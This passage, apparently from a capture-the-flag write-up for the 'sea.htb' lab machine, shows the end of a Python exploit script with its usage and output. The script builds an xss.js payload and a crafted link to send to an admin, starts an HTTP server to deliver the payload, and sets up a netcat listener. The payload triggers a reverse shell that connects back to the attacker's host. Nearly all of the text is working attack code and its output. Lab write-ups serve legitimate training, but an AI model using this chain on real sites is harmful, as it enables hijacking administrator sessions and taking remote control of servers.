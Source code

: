      if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       // trigger reverse shell script and provide listner ip & port
       xhr5.open("GET", whateverURL+"/themes/whatever/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")
    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```

This can be placed in the original directory (along with the "whatever.zip" file), saved as "exploit2.py," and executed as follows:

```
python3 exploit2.py http://sea.htb/loginURL 10.10.14.10 4444
```

The output should look like this:

```
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 4444
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.10:8000/xss.js"></script><form+action="
----------------------------
